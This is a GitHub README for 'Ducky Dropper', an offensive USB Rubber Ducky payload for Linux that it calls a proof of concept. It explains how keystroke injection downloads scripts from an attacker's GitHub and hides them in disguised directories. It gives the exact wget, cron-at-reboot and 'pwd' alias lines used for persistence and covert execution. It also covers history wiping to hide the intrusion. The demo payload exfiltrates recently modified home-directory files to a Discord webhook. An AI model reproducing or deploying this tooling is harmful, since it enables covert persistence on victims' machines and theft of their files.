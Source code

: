 <div align="center">
  
# Ducky Dropper


</div>

REM TITLE: Ducky_Dropper

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Linux (tested on Kali Linux release 2025.2)


## What is Ducky Dropper?
Ducky Dropper is a three part payload:
1. The DuckyScript Payload - [DS_payload.txt](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/DS_payload.txt)
2. The Bash script dropper - [cron_dropper.sh](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/cron_dropper.sh)
3. The Bash script payload - [payload.sh](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/payload.sh)

Ducky Dropper is **proof of concept** payload that uses the DS_payload.txt loaded onto the Hak5 USB Rubber Ducky to grab two Bash scripts (`cron_dropper.sh` and `payload.sh`) hosted on an attackers' Github. This uses Github (or could be configured with other hosting platforms) as a way to host payloads to be persistently dropped onto the target system. Once the payloads are downloaded to the target machine, the DuckyScript payload creates two hidden directories to store the respective scripts. It gives the scripts execution permissions, sets the dropper script (`cron_dropper.sh`) as a cronjob to be ran 60 seconds after machine boot, and then creates an alias for the `pwd` command to act as a trigger for payload script (`payload.sh`) execution. The terminal history is unset immediately after the terminal is popped to obfuscate the fact that code was injected, and then closes when done. Total injection time is ~4.5 seconds.

Ducky Dropper is deisgned so that once injected on the victim machine via the DuckyScript payload, when the target user enters the trigger command (in this case `pwd`, but can be changed, spoken about later), it will execute the `payload.sh` stored in `~/.confg`.

60 seconds after the machine is booted, the dropper becomes active. The dropper will first check to see if the machine is internet connected by sending a `ping` to hak5.org. If internet connectivity is *not* present, the dropper will exit and lay dormant until next boot. If internet connectivity *is* present, the dropper will grab a payload from the configured host site (Github) path. It will then calculate and compare an sha256sum checksum of the newly downloaded payload against the current payload present in `~/.confg` (the payload that is currently executed via the trigger command). If the checksums *match*, the newly downloaded payload is discarded (because it's the same as what is already present). If the checksums *do not* match the payload in `~/.confg` the current payload is replaced by the newly downloaded payload and given execution permissions. This allows for updated payloads to be grabbed via the dropper and executed by the trigger command. The attacker is able to maintain persistence on the target system and send it payloads of the attackers' choice to be grabbed on machine boot and executed by the trigger command.

**Configurations for all scripts/payloads can be changed, such as changing the trigger command, payload path for the dropper, etc, and is discussed below.**

---

**Testing Environment**

For this PoC I have set the DuckyScript payload to grab two Bash sripts (`cron_dropper.sh` and `payload.sh`) from Github. These are for demonstration purposes only to show how the payload works. The `payload.sh` is a Bash payload that when executed, checks for internet connectivity, looks for files inside of the users home folder that have been modified in the last 24 hours, if found tarballs them and exfiltrates them to a Discord webhook. If you would like to test this payload, you will need to manually add your Discord webhook to line 37 of the `payload.sh` after the DuckyScript payload has finished its injection. This would normally be pre-configuerd in the payload being hosted and grabbed so that when the payload is dropped it is fully configured, but it's not cause PoC.

After the Discord webhook has been configured, running the `pwd` command will silently exfiltrate modified files:
<img width="760" height="151" alt="t2" src="https://github.com/user-attachments/assets/2968a7b0-e95b-46a8-ba61-dc52b4296017" />

Again, please remember that these provided payloads are PoC only, and to not use them in their "demo" configuration to attack or persist on target machines.

---

### DuckyScript Payload (DS_payload.txt)

1. The Ducky will pop a terminal, unset the history file, and then download the two aforementioned Bash scripts (`cron_dropper.sh` and `payload.sh`).
2. Creates two hidden directories inside of the users home folder (`.cronfg` and `.confg`) that place and host the aforementioned Bash scripts.
	- `.cronfg` is the directory responsible for hosting the `cron_dropper.sh` script.
	- `.confg` is the directory responsible for hosting the `payload.sh` script.
   
3. Grants execution permissions to both scripts.
4. Sets up `cron_dropper.sh` as a cronjob to be ran 60 seconds after the target machine is booted.
5. Creates an alias for `pwd` that will execute `pwd` with the expected out *and* executes the `payload.sh` script.
6. Closes terminal to obfuscate activity.

**Configuration:**
- The attackers' Github path to where the dropper is hosted must be defiend in line 8.
	- e.g., `DEFINE #CRON_DROPPER https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/cron_dropper.sh`
	
- The attackers' Github path to where the payload is hosted must be defiend in line 9.
	- e.g., `DEFINE #PAYLOAD https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/payload.sh`

- The trigger command by default is `pwd`, this can be altered by changing the command in line 30.
	- e.g., `STRINGLN alias pwd='pwd; (/home/$USER/.confg/*.sh > /dev/null 2>&1 & )'` (commands are changed here --> `pwd='pwd`)

---

### The Dropper (cron_dropper.sh)

1. The dropper allows attacker persistence to the target machine.
2. Grabs new payloads hosted via Github (or your hosting platform choice) to be passed to and executed by the trigger command.
3. Performs internet connectivity checks before executing the entirety of the payload.
4. Performs a checksum function to identify a change in payload.
5. Places new payload into the `~/.confg` directory to be executed by the trigger command.

**Configuration**
- The frequency of the dropper "phoning home" for payloads can be altered in the DS_payload.txt. By default, it is sent to grab payloads 60 seconds after machine boot. If you would like to change this, it will need to be configured prior to initial DuckyScript payload injection. This can be altered on line 26 of the `DS_payload.txt` file.
	- e.g., `"@reboot sleep 60 && ~/.cronfg/cron_dropper.sh"` - change the `@reboot sleep 60` to the desired configuration.
	
- The source of where the dropper grabs payloads from cannot be changed post DuckyScript injection.
	- e.g., `wget -q -P /home/$user/.confg_tmp https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/payload.sh` - The dropper will always look to this URL path for new payloads. To create updated payloads, you would simply edit the code of `/payload.sh` on the hosting platform. It is important to note, do not change the URL path/file name after initial DuckyScript injection, this will break the hash function and cause issues.
	
---

### The Payload (payload.sh)
(demo payload)

 When the `pwd` command is entered, the following happens:
1. Checks for internet connectivity, if not present, exits, else:
2. Search for files in the target users home directory that have been modified in the last 24 hours.
3. If files, tarballs them, and then exfiltrates them to a Discord webhook.
As this is a demo payload, you will need to manually configure the Discord webhook (explained above in the testing environment section).

---

**A note on configuration of payload.sh and cron_dropper.sh**

It is important to note that whatever choice of naming convention used to name the payloads and dropper, they should be used consistently (so pick something you like). This will prevent errors with the checksum process. As an example, if the intiially downloaded payload is `payload123.sh`, then all subsequent payloads grabbed by the dropper should also be named `payload123.sh`.

Also, if you would like to change the name of the dropper, the change must also be done in the DS_payload.txt `"@reboot sleep 60 && ~/.cronfg/cron_dropper.sh"` (line 26) to ensure the cronjob calls to the correct dropper.

All naming conventions of files should be use consistently accross all three payloads to ensure the prevention of errors.
